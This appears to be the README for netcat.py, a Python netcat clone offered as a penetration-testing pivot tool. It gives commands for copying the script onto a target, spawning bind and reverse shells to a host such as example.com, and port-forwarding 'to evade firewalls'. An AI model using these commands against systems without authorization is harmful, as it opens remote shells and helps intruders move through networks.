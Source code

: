 # netcat.py

[![](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)
[![PyPI](https://img.shields.io/pypi/v/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Status](https://img.shields.io/pypi/status/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Format](https://img.shields.io/pypi/format/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Implementation](https://img.shields.io/pypi/implementation/netcat)](https://pypi.org/project/netcat/)
[![PyPI - License](https://img.shields.io/pypi/l/netcat)](https://pypi.org/project/netcat/)

[![Build Status](https://github.com/cytopia/netcat/workflows/linting/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=linting)
[![Build Status](https://github.com/cytopia/netcat/workflows/building/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=building)


Dependency-less Python 2 and Python 3 compatible implementation of netcat which works on 32bit and 64bit systems to easily pivot your target.

**Motivation**

To have a single tool for older, newer, 32bit and 64bit machines with relevant options (`-e`. `-L` and `-R`) to create bind shells, local and remote port-forwards.


## :tada: Install
```bash
pip install netcat
```


## :coffee: TL;DR

#### Copy to target
```bash
# Copy base64 data to clipboard from where you have internet access
curl https://raw.githubusercontent.com/cytopia/netcat/master/bin/netcat.py | base64

# Paste it on the target machine
echo "<BASE64 STRING>" | base64 -d > netcat.py
chmod +x netcat.py
```
#### Summon shells
```bash
# bind shell
netcat.py -l -e '/bin/bash' 8080
```
```bash
# reverse shell
netcat.py -e '/bin/bash' example.com 4444
```
#### Port-forwarding without SSH
```bash
# Make local port available to public interface locally
netcat.py -L 127.0.0.1:3306 192.168.0.1 3306
```
```bash
# Remote port-forwarding to evade firewalls
netcat.py -R 127.0.0.1:3306 example.com 4444
```


## :computer: Usage
```
usage: netcat.py [-Cnuv] [-e cmd] hostname port
       netcat.py [-Cnuv] [-e cmd] -l [hostname] port
       netcat.py [-Cnuv] -L addr:port [hostname] port
       netcat.py [-Cnuv] -R addr:port hostname port
       netcat.py -V, --version
       netcat.py -h, --help


Netcat implementation in Python with connect, listen and forward mode.

positional arguments:
  hostname              Address to listen, forward or connect to
  port                  Port to listen, forward or connect to

mode arguments:
  -l, --listen          Listen mode: Enable listen mode for inbound connects
  -L addr:port, --local addr:port
                        Local forward mode: Specify local <addr>:<port> to which traffic
                        should be forwarded to.
                        Netcat will listen locally (specified by hostname and port) and
                        forward all traffic to the specified value for -L/--local.
  -R addr:port, --remote addr:port
                        Remote forward mode: Specify local <addr>:<port> from which traffic
                        should be forwarded from.
                        Netcat will connect remotely (specified by hostname and port) and
                        for ward all traffic from the specified value for -R/--remote.

optional arguments:
  -e cmd, --exec cmd    Execute shell command. Only works with connect or listen mode.
  -C, --crlf            Send CRLF as line-endings (default: LF)
  -n, --nodns           Do not resolve DNS
  -u, --udp             UDP mode
  -v, --verbose         Be verbose and print info to stderr. Use -vv or -vvv for more verbosity.

misc arguments:
  -h, --help            Show this help message and exit
  -V, --version         Show version information and exit

examples:

  Create bind shell
    netcat.py -l -e '/bin/bash' 8080

  Create reverse shell
    netcat.py -e '/bin/bash' example.com 4444

  Local forward: Make localhost port available to another interface
    netcat.py -L 127.0.0.1:3306 192.168.0.1 3306

  Remote forward: Forward local port to remote server
    netcat.py -R 127.0.0.1:3306 example.com 4444
```


## :lock: [cytopia](https://github.com/cytopia) sec tools

| Tool             | Category             | Language   | Description |
|------------------|----------------------|------------|-------------|
| [smtp-user-enum] | Enumeration          | Python 2+3 | SMTP users enumerator |
| [urlbuster]      | Enumeration          | Python 2+3 | Mutable web directory fuzzer |
| [netcat]         | Pivoting             | Python 2+3 | Cross-platform netcat |
| [badchars]       | Reverse Engineering  | Python 2+3 | Badchar generator |
| [fuzza]          | Reverse Engineering  | Python 2+3 | TCP fuzzing tool |

[netcat]: https://github.com/cytopia/netcat
[smtp-user-enum]: https://github.com/cytopia/smtp-user-enum
[urlbuster]: https://github.com/cytopia/urlbuster
[badchars]: https://github.com/cytopia/badchars
[fuzza]: https://github.com/cytopia/fuzza


## :exclamation: Disclaimer

This tool may be used for legal purposes only. Users take full responsibility for any actions performed using this tool. The author accepts no liability for damage caused by this tool. If these terms are not acceptable to you, then do not use this tool.


## :page_facing_up: License

**[MIT License](LICENSE.txt)**

Copyright (c) 2020 **[cytopia](https://github.com/cytopia)**

